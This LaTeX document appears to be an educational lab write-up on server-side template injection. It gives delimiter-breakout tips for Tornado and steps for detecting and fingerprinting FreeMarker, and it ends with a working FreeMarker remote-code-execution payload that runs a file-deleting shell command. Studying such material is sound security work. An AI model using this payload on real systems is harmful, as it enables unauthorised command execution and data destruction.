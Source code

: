 \documentclass{article}
\begin{document}
\subsection{Key Takeaways from this Lab}
\begin{itemize}
    \item \textbf{Identify the Context:} Always check if your input is already being wrapped in delimiters like \texttt{\{\{ \}\}}. If so, use \texttt{\}\}} to close the original statement before starting yours.
    \item \textbf{Documentation is Key:} Every engine has a specific way of executing code. In Tornado, \texttt{\{\% \%\}} is the standard for statement execution.
    \item \textbf{URL Encoding:} When sending payloads through tools like Burp Suite, ensure special characters (like \texttt{\%}, \texttt{ }, and \texttt{\&}) are properly URL-encoded to avoid breaking the HTTP request.
\end{itemize}

\section{Advanced Case Studies}

\subsection{Case Study: FreeMarker (Java) - Exploiting Built-ins}
In some applications, users are allowed to edit the template itself (e.g., product description templates). This is a direct path to SSTI.

\begin{enumerate}
    \item \textbf{Detection:} Change a variable to something non-existent like \texttt{\$\{foobar\}}.
    \item \textbf{Fingerprinting:} The resulting error message explicitly mentions \texttt{freemarker.core.InvalidReferenceException}.
    \item \textbf{Vulnerability:} FreeMarker has a \texttt{new()} built-in that can instantiate arbitrary Java classes.
    \item \textbf{Exploit:} Use the \texttt{Execute} class to run OS commands.
\end{enumerate}

\begin{lstlisting}[language=Java, caption=FreeMarker RCE Payload]
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ ex("rm /home/carlos/morale.txt") }
\end{lstlisting}
\end{document}
